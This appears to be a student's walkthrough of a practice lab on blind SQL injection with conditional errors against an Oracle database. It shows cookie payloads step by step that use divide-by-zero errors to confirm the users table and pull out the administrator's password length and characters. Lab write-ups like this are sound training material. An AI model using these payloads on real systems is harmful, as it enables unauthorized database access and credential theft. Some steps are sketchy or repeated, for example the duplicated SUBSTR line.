

# Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Conceptual Review

What do we do if the application does not respond regardless of the boolean condition?

It may be possible to try and induce the application to return a different response depending on whether an SQL error occurs.

> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'  
>xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a' 

* With the first input, CASE outputs 'a' as 1=2 is false
* With the second input, CASE evaluates to 1/0, which is a ZeroDivisionError.

## Attempt

Firstly, lets do some recon and test if the application is vulnerable.

> TrackingId=vndQJvcFoOea7JAE'

An error message is received.

> TrackingId=vndQJvcFoOea7JAE''

The error disappears. This indicates syntax error previously, where the unclosed quotation mark is having a detectable effect on the response.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT '' FROM dual)||'

As we do not receive an error, this implies that the application is using Oracle's database, which requires all select statements to specify a table name.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT '' FROM notrealtable)||'

When we try to retrieve a query from a table not in the database, an error is returned. This behavior strongly suggests that our injection is being processed as a SQL query by the back-end.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT '' FROM users WHERE ROWNUM = 1)||'

This does not return an error indicating that the users table is there. Note that ROWNUM = 1 is important so that the query does not return multiple values, which would break our concatenation.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)||'

This returns an error.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)||'

The error message disappears.

Now we check if 'administrator' is in the users database:

> TrackingId=vndQJvcFoOea7JAE'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'

This gives us an error which confirms that administrator is in the users table. We can see that if we typed a random username, the server will not give us an error.

This is because the SQL query is iterating through the list of users and finding `username=administrator`, if found, the `CASE` will be executed. If not, nothing will be executed and only the TrackingID will be returned.

Now we need to determine the length of the password.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT CASE WHEN LENGTH(password) > 1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'

We see that the password length is 20. Now we want to find the password.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT CASE WHEN SUBSTR(password, 1, 1) = 'b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'

Note that because the database is in oracle, instead of using `SUBSTRING` we use `SUBSTR`.

> TrackingId=vndQJvcFoOea7JAE'||(SELECT CASE WHEN SUBSTR(password, 1, 1) = 'b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'

And we get the password!

